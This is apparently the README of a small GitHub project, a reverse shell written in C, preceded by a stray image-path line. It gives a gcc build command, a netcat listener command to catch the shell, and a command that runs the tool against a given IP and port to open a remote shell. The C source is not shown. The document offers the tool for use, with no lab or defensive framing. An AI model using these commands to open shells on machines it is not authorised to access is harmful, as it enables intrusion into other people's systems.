 # Simple Reverse Shell
A run of the mill reverse shell written in C.

## Building
```
gcc -o reverse-shell reverse-shell.c
```

## Using
Bind a port on one machine to catch the shell:
```
nc -l -p 1337
```

And on the other machine simply run:
```
./reverse-shell <ip> 1337
```
